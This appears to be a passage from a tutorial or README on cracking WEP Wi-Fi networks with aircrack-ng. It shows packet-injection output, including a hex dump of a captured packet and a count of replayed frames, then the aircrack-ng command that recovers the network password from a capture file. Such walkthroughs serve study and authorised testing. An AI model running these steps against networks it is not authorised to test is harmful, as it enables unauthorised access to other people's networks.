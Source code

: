Output Text:  
```
The interface MAC (AC:7B:A1:84:EB:D5) doesn't match the specified MAC (-h).
	ifconfig wlp2s0mon hw ether 12:34:45:67:89:01


        Size: 68, FromDS: 1, ToDS: 0 (WEP)

              BSSID  =  E8:94:F6:F2:F1:E1
          Dest. MAC  =  FF:FF:FF:FF:FF:FF
         Source MAC  =  AC:2B:6E:15:66:D9

        0x0000:  0862 0000 ffff ffff ffff e894 f6f2 f1e1  .b..............
        0x0010:  ac2b 6e15 66d9 10cc 566f 0a00 1afe ce6d  .+n.f...Vo.....m
        0x0020:  6747 c002 d018 907e 2991 fff9 68e3 3196  gG.....~)...h.1.
        0x0030:  ceb1 ffa7 948e cd81 b855 6f53 a111 8c03  .........UoS....
        0x0040:  fdc2 b50c                                ....

Use this packet ? y

Saving chosen packet in replay_src-1029-135239.cap
You should also start airodump-ng to capture replies.

Sent 449120 packets...(500 pps)
```


## Execute Crack


Command:  
`sudo aircrack-ng to_break_educational-01.cap`  
Explanation: Use `aircrack-ng` to execute the crack. The `aircrack-ng` decryptes the ***<WEP_Netowrk>.cap*** file to crack the ***password*** of the WEP network.


Output Screenshot:  